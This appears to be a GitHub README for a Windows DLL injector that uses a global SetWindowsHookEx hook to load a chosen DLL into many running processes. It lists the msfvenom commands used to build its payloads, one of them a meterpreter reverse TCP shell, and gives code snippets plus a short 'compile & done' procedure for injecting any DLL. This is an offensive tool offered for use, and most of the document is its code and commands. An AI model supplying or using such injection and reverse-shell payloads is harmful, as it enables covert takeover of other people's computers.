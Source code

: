 # Global-SetWindowsHookEx-Injector
Loads test.dll into a subset of processes that have user32.dll loaded
that launches a thread that spawns a messagebox whenever it is loaded
## Payloads that have been tested with this project
`msfvenom -f c -p windows/x64/messagebox EXITFUNC=thread TEXT="Hello, from urmom"` </br>
`msfvenom -p windows/x64/meterpreter_reverse_tcp EXITFUNC=thread RHOST=127.0.0.1 RPORT=4444 -f c -o file.txt`
## Usage
1. Just add this to your dll:
extern "C" __declspec(dllexport) int NextHook(int code, WPARAM wParam, LPARAM lParam) {
	return CallNextHookEx(NULL, code, wParam, lParam);
}

2. Edit your dll name in hookloader/main.cpp:
HMODULE dll = LoadLibraryEx(L"test.dll", NULL, DONT_RESOLVE_DLL_REFERENCES); //<-- DLL name

3. Compile & done

![](https://github.com/Msfv3n0m/Global-SetWindowsHookEx-Injector/blob/master/loaded_dll.PNG)
## Credit
This project uses [this](https://www.bing.com/search?pglt=2081&q=mingw.threads.h+github&cvid=eda2595c8617405babee903277a23f89&aqs=edge.0.69i59l2j69i57j69i59j69i58j69i60j69i64.1251j0j1&FORM=ANNTA1&PC=U531) library to create a thread to launch the messagebox without interrupting the programs
